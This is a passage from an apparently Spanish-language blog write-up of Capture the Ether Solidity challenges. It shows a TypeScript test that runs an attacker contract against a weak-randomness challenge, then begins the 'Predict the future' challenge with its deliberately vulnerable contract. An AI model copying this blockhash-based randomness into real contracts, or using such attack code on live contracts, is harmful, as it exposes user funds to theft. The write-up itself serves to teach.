       const tx = await attackerNewNumberContract.atacarNewNumberChallenge(newNumberContract.address,{
        value: ethers.utils.parseEther("1"),
        gasLimit: 1e5
      });
      console.log(tx.hash)
      tx.wait();
      let isComplete:boolean = await newNumberContract.isComplete();
      if (isComplete) {
        console.log("DESAFÍO RESUELTO. Retirando ETH...");
      }

      expect(isComplete,"DESAFÍO INCOMPLETO").to.be.true;
    })
  })

  {% endhighlight %}
</div>

### Conclusión:
Confiar en variables que cambien según el estado de la blockchain no es algo que nos asegure la generación de un valor aleatorio. Para ello existen otras herramientas, como los <a href="https://docs.chain.link/docs/get-a-random-number/">Oráculos</a>, por ejemplo.
<br>
<br>

<hr>

<div style="text-align:center">
<h1 style="color:#089990; margin-bottom: 0px;">2. Predict the future</h1>
<h2 style="margin-bottom: 0px; margin-top: 0px">Problema:</h2>
<b><i>"Esta vez, debe bloquear su intento por adivinar antes de que se genere el número aleatorio. Para darte una oportunidad deportiva, solo hay diez respuestas posibles. Tenga en cuenta que, de hecho, es posible resolver este desafío sin perder ningún ether."</i></b>
<br>
<br>
<p>El contrato que atacaremos será el siguiente</p>
</div>

{% highlight typescript %}

pragma solidity ^0.4.21;

contract PredictTheFutureChallenge {
    address guesser;
    uint8 guess;
    uint256 settlementBlockNumber;

    function PredictTheFutureChallenge() public payable {
        require(msg.value == 1 ether);
    }

    function isComplete() public view returns (bool) {
        return address(this).balance == 0;
    }

    function lockInGuess(uint8 n) public payable {
        require(guesser == 0);
        require(msg.value == 1 ether);

        guesser = msg.sender;
        guess = n;
        settlementBlockNumber = block.number + 1;
    }

    function settle() public {
        require(msg.sender == guesser);
        require(block.number > settlementBlockNumber);

        uint8 answer = uint8(keccak256(block.blockhash(block.number - 1), now)) % 10;
